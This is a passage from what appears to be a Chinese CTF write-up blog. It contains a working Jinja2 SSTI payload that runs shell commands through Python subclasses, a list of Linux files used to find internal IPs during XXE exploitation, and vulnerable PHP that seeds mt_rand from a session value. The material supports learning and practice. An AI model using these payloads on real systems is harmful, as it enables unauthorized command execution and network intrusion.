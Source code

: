 ```python
{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

另外还有类似 `__init__["__glo"+"bals__"]` 的拼接, 未测试

## [NCTF2019]True XML cookbook

跟之前有一题差不多, 也是 xxe

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151426644.png)

读取 /flag 提示找不到文件, 猜测可能是在内网中

下面是一些可能获取到内网 ip 的敏感文件

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```

这题弄了好久, arp 表里的地址不行, 反而是 fib_trie 里的能够得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151427770.png)

爆破一下内网网段

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151428664.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151428684.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151428578.png)

## [GWCTF 2019]枯燥的抽奖

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209151507920.png)

check.php

```php
5ZedaSs3I5

<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";

```
